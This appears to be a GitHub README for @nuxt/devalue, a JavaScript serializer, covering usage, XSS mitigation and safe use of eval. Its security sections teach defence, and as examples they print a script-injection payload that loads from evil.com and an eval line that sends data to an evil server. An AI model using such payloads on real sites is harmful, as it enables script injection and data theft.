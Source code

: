 ```yaml
---
repo: nuxt-contrib/devalue
url: 'https://github.com/nuxt-contrib/devalue'
homepage: 'https://npm.runkit.com/devalue'
starredAt: '2022-02-23T06:50:30Z'
createdAt: '2018-10-03T12:14:58Z'
updatedAt: '2024-10-14T16:06:50Z'
language: TypeScript
license: MIT
branch: main
stars: 79
isPublic: true
isTemplate: false
isArchived: false
isFork: true
hasReadMe: true
refreshedAt: '2025-02-25T20:22:14.152Z'
description: Gets the job done when JSON.stringify can't
tags: []
---
```


# @nuxt/devalue

[![npm version][npm-version-src]][npm-version-href]
[![npm downloads][npm-downloads-src]][npm-downloads-href]
[![codecov][codecov-src]][codecov-href]
[![package phobia][package-phobia-src]][package-phobia-href]
[![bundle phobia][bundle-phobia-src]][bundle-phobia-href]

> Forked from [devalue](https://github.com/Rich-Harris/devalue) to log errors on non-serializable properties rather than throwing `Error`.

Like `JSON.stringify`, but handles

* cyclical references (`obj.self = obj`)
* repeated references (`[value, value]`)
* `undefined`, `Infinity`, `NaN`, `-0`
* regular expressions
* dates
* `Map` and `Set`
* `.toJSON()` method for non-POJOs

Try it out on [runkit.com](https://npm.runkit.com/@nuxt/devalue).

## Goals:

* Performance
* Security (see [XSS mitigation](#xss-mitigation))
* Compact output


## Non-goals:

* Human-readable output
* Stringifying functions or arbritary non-POJOs


## Usage

```js
import devalue from '@nuxt/devalue';

let obj = { a: 1, b: 2 };
obj.c = 3;

devalue(obj); // '{a:1,b:2,c:3}'

obj.self = obj;
devalue(obj); // '(function(a){a.a=1;a.b=2;a.c=3;a.self=a;return a}({}))'
```

If `devalue` encounters a function or a non-POJO, it will throw an error.


## XSS mitigation

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

Which would result in this:

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"</script><script src='https://evil.com/mwahaha.js'>"};
</script>
```

Using `devalue`, we're protected against that attack:

```js
const template = `
<script>
  var preloaded = ${devalue(state)};
</script>`;
```

```html
<script>
  var preloaded = {userinput:"\\u003C\\u002Fscript\\u003E\\u003Cscript src=\'https:\\u002F\\u002Fevil.com\\u002Fmwahaha.js\'\\u003E"};
</script>
```

This, along with the fact that `devalue` bails on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `devalue` can be safely deserialized with `eval` or `new Function`:

```js
const value = (0,eval)('(' + str + ')');
```


## Other security considerations

While `devalue` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `devalue` would have access to your system.

When using `eval`, ensure that you call it *indirectly* so that the evaluated code doesn't have access to the surrounding scope:

```js
{
  const sensitiveData = 'Setec Astronomy';
  eval('sendToEvilServer(sensitiveData)'); // pwned :(
  (0,eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}
```

Using `new Function(code)` is akin to using indirect eval.


## See also

* [lave](https://github.com/jed/lave) by Jed Schmidt
* [arson](https://github.com/benjamn/arson) by Ben Newman
* [tosource](https://github.com/marcello3d/node-tosource) by Marcello Bastéa-Forte
* [serialize-javascript](https://github.com/yahoo/serialize-javascript) by Eric Ferraiuolo


## License

[MIT](LICENSE)

<!-- Refs -->
[npm-version-src]: https://flat.badgen.net/npm/v/@nuxt/devalue/latest
[npm-version-href]: https://www.npmjs.com/package/@nuxt/devalue

[npm-downloads-src]: https://flat.badgen.net/npm/dm/@nuxt/devalue
[npm-downloads-href]: https://www.npmjs.com/package/@nuxt/devalue

[circleci-src]: https://flat.badgen.net/circleci/github/nuxt-contrib/devalue
[circleci-href]: https://circleci.com/gh/nuxt-contrib/devalue

[package-phobia-src]: https://flat.badgen.net/packagephobia/install/@nuxt/devalue
[package-phobia-href]: https://packagephobia.now.sh/result?p=@nuxt/devalue

[bundle-phobia-src]: https://flat.badgen.net/bundlephobia/minzip/@nuxt/devalue
[bundle-phobia-href]: https://bundlephobia.com/result?p=@nuxt/devalue

[codecov-src]: https://flat.badgen.net/codecov/c/github/nuxt-contrib/devalue/master
[codecov-href]: https://codecov.io/gh/nuxt-contrib/devalue
